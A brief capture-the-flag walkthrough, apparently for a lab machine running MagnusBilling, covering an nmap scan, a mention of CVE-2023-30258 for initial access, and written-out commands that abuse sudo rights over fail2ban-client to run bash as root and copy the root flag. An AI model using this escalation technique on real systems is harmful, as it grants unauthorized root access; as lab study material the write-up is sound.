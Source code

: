 Started with a nmap scan
```
22 OpenSSH 8.4p1
80 Apache 2.4.56
3306 MariaDB 10.3.23
5038 Asterisk Call Manaher 2.10.6
```
Going to the webhost we get redirected to `mBiling` which is `magnus Billing` looking around for exploits I found one `CVE-2023-30258` and we get a call back as the user `astrisk` when running `sudo -l` we can run `fail2ban` as sudo with no a passowrd looking for writeable files we have `systemd-timesyncd.service` file and looking at the ban policy we can see its set to `1hr` there not much we can do with the file we can edit but `fail2ban` lets us run commands from the command line using `action` 
```
sudo /usr/bin/fail2ban-client restart
sudo /usr/bin/fail2ban-client set sshd action iptables-multipart actionban "/bin/bash -c 'cat /root/root.txt > /tmp/root.txt && chmod 777 /tmp/root.txt'"
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
cat /tmp/root.txt
```
Now we have the final root flag 